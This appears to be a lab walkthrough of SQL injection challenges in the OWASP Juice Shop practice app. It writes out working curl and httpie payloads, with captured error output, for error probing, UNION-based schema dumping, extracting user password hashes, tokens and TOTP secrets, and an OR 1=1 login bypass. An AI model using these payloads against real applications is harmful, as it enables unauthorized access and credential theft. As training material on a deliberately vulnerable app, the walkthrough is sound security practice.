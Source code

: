 # Injection

Resources

* [SQL injection](https://portswigger.net/web-security/sql-injection)

## Intercept all requests with burp and look for a request with parameters to fuzz

```bash
# send to intruder
#GET /rest/products/search?q=';

# show SQLi vulnerability
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=foo';" | jq
# output
{
  "error": {
    "message": "SQLITE_ERROR: near \";\": syntax error",
    "stack": "Error: SQLITE_ERROR: near \";\": syntax error",
    "errno": 1,
    "code": "SQLITE_ERROR",
    "sql": "SELECT * FROM Products WHERE ((name LIKE '%foo';%' OR description LIKE '%foo';%') AND deletedAt IS NULL) ORDER BY name"
  }
}
```

## Order the Christmas special offer of 2014

```bash
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=2014%'+AND+deletedAt+IS+NOT+NULL));--" | jq

# with firefox or burp edit and send a POST request with ProductId=10
#http://box-owasp-juice-shop-0eruj:3000/api/BasketItems
#{"ProductId":10,"BasketId":"6","quantity":1}
```

#3 Exfiltrate the entire DB schema definition via SQL Injection

```bash
# Products table has 9 columns (see json above)
# to fix "SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns"
# add N static columns in order to match them
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=foo%'))+UNION+SELECT+name,sql,'a','b','c','d','e','f','g'+FROM+sqlite_master+WHERE+type='table';--" | jq '.data | map({"id":.id,"name":.name})'
```

## Log in with the (non-existing) accountant without ever registering that user
```bash
http http://box-owasp-juice-shop-<RANDOM>:3000/rest/user/login email=\' password=foo
# output
{
    "error": {
        "message": "SQLITE_ERROR: near \"acbd18db4cc2f85cedef654fccc4a4d8\": syntax error",
        "name": "SequelizeDatabaseError",
        "original": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "parameters": {},
        "parent": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL",
        "stack": "Error\n    at Database.<anonymous> (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:185:27)\n    at /juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:50\n    at new Promise (<anonymous>)\n    at Query.run (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:12)\n    at /juice-shop/node_modules/sequelize/lib/sequelize.js:315:28\n    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)"
    }
}

http http://box-owasp-juice-shop-<RANDOM>:3000/rest/user/login email="acc0unt4nt@juice-sh.op' OR 1=1--"
```

## Log in with the administrator's user account
```bash
TODO
```

## Retrieve a list of all user credentials via SQL Injection

```bash
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=foo%'))+UNION+SELECT+id,username,email,password,role,deluxeToken,totpSecret,isActive,createdAt+FROM+Users;--" | jq '.data'
```
